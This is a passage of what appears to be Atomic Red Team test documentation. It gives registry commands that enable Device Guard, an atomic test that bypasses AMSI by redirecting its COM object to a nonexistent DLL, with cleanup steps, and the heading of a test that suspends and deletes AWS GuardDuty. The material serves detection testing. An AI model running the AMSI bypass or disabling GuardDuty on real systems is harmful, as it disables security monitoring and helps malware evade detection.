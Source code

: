 ##### Get Prereq Commands:

```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "EnableVirtualizationBasedSecurity" /t REG_DWORD /d 1 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "RequirePlatformSecurityFeatures" /t REG_DWORD /d 1 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "Locked" /t REG_DWORD /d 0 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Enabled" /t REG_DWORD /d 1 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Locked" /t REG_DWORD /d 0 /f
```

<br/>
<br/>

## Atomic Test #45 - AMSI Bypass - Override AMSI via COM

With administrative rights, an adversary can disable AMSI via registry value in HKCU\Software\Classes\CLSID\{fdb00e52-a214-4aa1-8fba-4357bb0072ec} by overriding the Microsoft Defender COM object for AMSI and points it to a DLL that does not exist.
This is currently being used by AsyncRAT and others.
https://strontic.github.io/xcyclopedia/library/clsid_fdb00e52-a214-4aa1-8fba-4357bb0072ec.html
https://securitynews.sonicwall.com/xmlpost/asyncrat-variant-includes-cryptostealer-capabilites/

**Supported Platforms:** Windows

**auto_generated_guid:** 17538258-5699-4ff1-92d1-5ac9b0dc21f5

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
REG ADD HKCU\Software\Classes\CLSID\{fdb00e52-a214-4aa1-8fba-4357bb0072ec}\InProcServer32 /ve /t REG_SZ /d C:\IDontExist.dll /f
```

#### Cleanup Commands:

```cmd
REG DELETE HKCU\Software\Classes\CLSID\{fdb00e52-a214-4aa1-8fba-4357bb0072ec}\InProcServer32 /f
```

<br/>
<br/>

## Atomic Test #46 - AWS - GuardDuty Suspension or Deletion

Enables GuardDuty in AWS, upon successful creation this test will suspend and then delete the GuardDuty configuration.

**Supported Platforms:** Iaas:aws

**auto_generated_guid:** 11e65d8d-e7e4-470e-a3ff-82bc56ad938e

